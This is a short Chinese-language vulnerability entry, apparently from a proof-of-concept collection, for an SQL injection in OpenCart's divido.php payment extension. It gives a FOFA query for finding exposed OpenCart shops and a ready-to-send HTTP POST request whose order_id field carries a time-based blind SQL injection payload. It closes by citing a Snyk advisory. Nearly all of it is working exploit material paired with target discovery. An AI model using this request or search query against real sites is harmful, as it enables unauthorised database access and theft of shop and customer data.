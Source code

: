 ## OpenCart开源电子商务平台divido.php存在SQL注入漏洞

## fofa

```
app="OpenCart-开源免费PHP商城"
```

## poc

```
POST /index.php?route=extension/payment/divido/update HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/json
content-length: 44

{"status":true,"metadata":{"order_id":"1 AND (SELECT 6684 FROM (SELECT(SLEEP(5)))mUHr)"}}
```

![image-20240628175420361](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406281754398.png)

## 漏洞来源

- https://security.snyk.io/vuln/SNYK-PHP-OPENCARTOPENCART-7266565